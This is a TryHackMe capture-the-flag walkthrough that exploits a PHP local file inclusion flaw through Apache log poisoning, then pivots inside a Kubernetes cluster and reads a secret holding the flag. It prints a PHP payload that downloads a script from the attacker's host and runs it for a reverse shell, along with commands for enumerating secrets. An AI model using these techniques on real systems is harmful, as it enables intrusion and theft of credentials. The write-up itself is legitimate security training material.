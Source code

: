 ```yaml
---
title: TryHackMe - Island Orchestration - Walkthrough
tags: thm web kubernetes kubectl lfi
---
```


# Description

Only one flag to catch ... !

![2022-06-25_17-29](https://user-images.githubusercontent.com/84577967/175782516-de2830f0-1a00-4e41-bf61-4c8312532785.png)

# Recon

With `nmap` we can find 2 opened ports

```
Nmap scan report for 10.10.160.23
Host is up, received reset ttl 255 (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Port 80

We have a PHP webapp on port 80

![2022-06-25_17-37](https://user-images.githubusercontent.com/84577967/175782766-7c4176c0-0e58-448a-8d8c-32181f7dc4c3.png)

![image](https://user-images.githubusercontent.com/84577967/175782758-ed3c0642-5acc-4fba-92ab-e60e28d9f95d.png)

And looks like we are facing another LFI story ... Internet is full of LFI Cheat Sheet ...

![image](https://user-images.githubusercontent.com/84577967/175782872-51eb640f-22f2-4ef2-afd7-cba363eacd24.png)

The way to get a reverse shell on this webapp is by trying to include the apache2 access_log, I found it on `/proc/self/fd/6`

![image](https://user-images.githubusercontent.com/84577967/175782863-b86ecd11-9215-4605-a7fd-dcb7f83b99a9.png)

And then I injected my payload on UserAgent value

![image](https://user-images.githubusercontent.com/84577967/175782913-8fc573d0-d623-4322-b454-5186f3efa5c6.png)

And we easily were able to get an RCE

![image](https://user-images.githubusercontent.com/84577967/175782954-55971df9-f2fc-46b9-84be-07587472fca7.png)

And to get a reverse shell I injeted this payload

![image](https://user-images.githubusercontent.com/84577967/175783019-f7aa1a23-5564-4ae1-a410-1ba2ed0a3dbd.png)

```php
<?php file_put_contents('/tmp/s.sh',file_get_contents('http://10.8.48.23:8001/s.sh'),FILE_APPEND);system('bash /tmp/s.sh');?>
```

![image](https://user-images.githubusercontent.com/84577967/175783041-e872251e-42a6-4131-909c-1c70cb295ac6.png)

I wasn't able to find some linux binaries such `ifconfig`, `curl` ...

![image](https://user-images.githubusercontent.com/84577967/175783088-70c25bb8-2acb-40bd-b9c8-3231eaf41ffb.png)

So I directly knew that we are inside a docker container or something similar ... and usually in these cases I use my repo where I collected most of linux binaries [linux-static-binaries](https://github.com/ab2pentest/linux-static-binaries)

So let's upload `ifconfig` and see what we have here

![image](https://user-images.githubusercontent.com/84577967/175783182-0f89544d-249d-4008-81ad-c00d15955af8.png)

Great ! looks like we are in a docker let's use nmap and see if we have other containers ... I use this static binary [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries)

After uploading it

```bash
./nmap 172.17.0.0/24 -vvv
```

output:

```
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received conn-refused (0.00027s latency).
Scanned at 2022-06-25 15:38:09 UTC for 4s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
8443/tcp  open     https-alt syn-ack
30000/tcp filtered ndmps     no-response

Nmap scan report for coredns-78fcd69978-ttkch (172.17.0.2)
Host is up, received conn-refused (0.00029s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE     REASON
53/tcp   open  domain      syn-ack
8080/tcp open  http-proxy  syn-ack
8181/tcp open  intermapper syn-ack

Nmap scan report for islands-7655b7749f-zvq52 (172.17.0.3)
Host is up, received syn-ack (0.00030s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

There are 3 hosts

### 172.17.0.1

From the ports `10250`, `10256` and `8443` looks like a kubernetes server

```bash
./nmap 172.17.0.1 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:39:27 UTC for 3s
Not shown: 65528 closed ports
Reason: 65528 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
2376/tcp  open     docker    syn-ack
8443/tcp  open     https-alt syn-ack
10249/tcp open     unknown   syn-ack
10250/tcp open     unknown   syn-ack
10256/tcp open     unknown   syn-ack
30000/tcp filtered ndmps     no-response
```

### 172.17.0.2

I didn't know what this host is doing ...

```bash
./nmap -sC -sV 172.17.0.2 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:38:54 UTC for 16s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE SERVICE    REASON  VERSION
53/tcp   open  tcpwrapped syn-ack
8080/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8181/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9153/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

## Kubernetes

So the first thing I always do is downloading `kubectl`

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Let's try to list pods

```bash
./kubectl get pods
```

![image](https://user-images.githubusercontent.com/84577967/175783551-9ba5d6ff-a7e9-41dc-8972-a77174a1bf4f.png)

The user has no rights to list pods, so let's inspect authorization first 

![image](https://user-images.githubusercontent.com/84577967/175783621-a93738c1-3c71-4fe3-940e-5446b0d20336.png)

Using the command below we can list all what our current user can do

```
./kubectl auth can-i --list
```

![image](https://user-images.githubusercontent.com/84577967/175783658-e9fe2bfa-96ab-4bc6-a996-89701ac02ff4.png)

There is a reousrce named `secrets` let's check what we have there

```bash
./kubectl get secrets
```

![image](https://user-images.githubusercontent.com/84577967/175783710-ada11fa5-38ff-47c3-b1c6-386b2156e251.png)

Looks like we are getting close to get the flag ...

```bash
./kubectl describe secrets/flag
```

![image](https://user-images.githubusercontent.com/84577967/175783748-91ab5b9e-892f-4a93-8302-32a50f785761.png)


```bash
./kubectl describe secrets/flag
```

# Flag

```bash
./kubectl get secret flag -o=json
```

![image](https://user-images.githubusercontent.com/84577967/175783827-fb49db11-56a5-46ea-b936-f680658eed83.png)

We base64 decode the value flag and that's how we got our flag !
